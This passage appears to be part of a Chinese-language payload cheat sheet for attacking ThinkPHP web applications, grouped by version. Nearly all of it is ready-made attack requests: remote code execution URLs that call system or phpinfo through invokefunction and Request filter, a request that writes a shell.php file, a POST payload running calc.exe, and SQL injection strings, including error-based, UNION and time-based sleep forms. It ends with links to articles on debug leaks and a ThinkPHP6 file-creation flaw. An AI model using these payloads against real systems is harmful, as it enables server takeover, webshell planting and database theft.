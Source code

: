 **thinkphp 5.1.\***
```
/?s=index/\think\Request/input&filter=phpinfo&data=1
/?s=index/\think\Request/input&filter=system&data=cmd
/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
(post)public/index.php (data)c=exec&f=calc.exe&_method=filter
```

**thinkphp 5.2.\***
```
(post)public/index.php (data)c=exec&f=calc.exe&_method=filter
```

**未知版本未知版本**
```
?s=index/\think\module/action/param1/${@phpinfo()}
?s=index/\think\Module/Action/Param/${@phpinfo()}
?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}
index.php?s=/home/article/view_recent/name/1'

header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"

index.php?s=/home/shopcart/getPricetotal/tag/1%27
index.php?s=/home/shopcart/getpriceNum/id/1%27
index.php?s=/home/user/cut/id/1%27
index.php?s=/home/service/index/id/1%27
index.php?s=/home/pay/chongzhi/orderid/1%27
index.php?s=/home/pay/index/orderid/1%27
index.php?s=/home/order/complete/id/1%27
index.php?s=/home/order/complete/id/1%27
index.php?s=/home/order/detail/id/1%27
index.php?s=/home/order/cancel/id/1%27
index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+

POST /index.php?s=/home/user/checkcode/ HTTP/1.1
Content-Disposition: form-data; name="couponid"
1') union select sleep('''+str(sleep_time)+''')#
```

**debug 信息泄露**
- 相关文章
    - [实战技巧|利用ThinkPHP5.X的BUG实现数据库信息泄露](https://mp.weixin.qq.com/s/B9jkF0e0SMTJ6r09Syy-8A)
    - [thinkphp5 mysql账号密码泄露漏洞](https://mp.weixin.qq.com/s/R11Ha6ksbd7kslAuhyy73Q)

#### >5

**thinkphp6 session 任意文件创建漏洞**
- 相关文章
    - [thinkphp6 session 任意文件创建漏洞复现 含POC](https://mp.weixin.qq.com/s/8k96KSpWMk7S4-_TzweXxg)

---